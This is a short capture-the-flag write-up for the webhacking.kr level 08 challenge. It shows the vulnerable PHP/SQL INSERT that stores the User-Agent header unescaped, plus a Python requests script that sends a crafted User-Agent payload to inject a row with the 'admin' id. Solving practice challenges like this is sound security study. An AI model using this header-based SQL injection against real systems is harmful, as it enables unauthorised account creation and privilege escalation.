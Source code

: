 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="Add user",arrowhead="normal"];
    }

|


server -> DB
================================================================================================================

- PHP
- GET 파라미터: HTTP_USER_AGENT

.. code-block:: sql

    insert into lv0(agent,ip,id) 
    values('$_SERVER[HTTP_USER_AGENT]','$ip','guest')

|

insert
================================================================================================================

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

|
